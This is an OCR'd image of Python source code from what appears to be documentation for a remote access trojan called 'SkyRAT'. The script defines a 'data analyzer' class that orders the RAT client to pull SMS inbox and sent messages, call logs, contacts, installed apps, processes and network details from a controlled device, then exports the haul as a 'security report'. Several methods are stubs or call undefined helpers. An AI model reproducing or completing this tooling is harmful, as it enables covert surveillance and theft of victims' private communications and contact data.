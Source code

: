 ### **Data Analysis Integration**

```python
#!/usr/bin/env python3
# data_analyzer.py

import json
import pandas as pd
from datetime import datetime
import matplotlib.pyplot as plt

class SkyRATDataAnalyzer:
    
    def __init__(self, client):
        self.client = client
        
    def collect_all_data(self):
        """Collect comprehensive device data"""
        data = {}
        
        # Device information
        data['device_info'] = self.client.get_device_info()
        data['system_info'] = self.client.send_command("sysinfo")
        data['network_info'] = self.client.send_command("getIP")
        
        # Communication data
        data['sms_inbox'] = self.client.extract_sms("inbox")
        data['sms_sent'] = self.client.extract_sms("sent")
        data['call_logs'] = self.client.send_command("getCallLogs")
        data['contacts'] = self.client.send_command("getContacts")
        
        # Application data
        data['apps'] = self.client.send_command("getApps")
        data['processes'] = self.client.send_command("ps")
        
        return data
        
    def analyze_communication_patterns(self, sms_data):
        """Analyze SMS communication patterns"""
        # Extract timestamps and analyze patterns
        # Implementation depends on SMS data format
        pass
        
    def generate_security_report(self, data):
        """Generate comprehensive security report"""
        report = {
            'timestamp': datetime.now().isoformat(),
            'device_profile': self.extract_device_profile(data['device_info']),
            'security_analysis': self.analyze_security_posture(data),
            'risk_assessment': self.assess_risks(data),
            'recommendations': self.generate_recommendations(data)
        }
        return report
        
    def export_results(self, data, format='json'):
        """Export analysis results"""
        if format == 'json':
            with open(f'skyrat_analysis_{datetime.now().strftime("%Y%m%d_%H%M%S")}.json', 'w') as f:
                json.dump(data, f, indent=2)
        elif format == 'excel':
            # Convert to pandas and export to Excel
            pass
```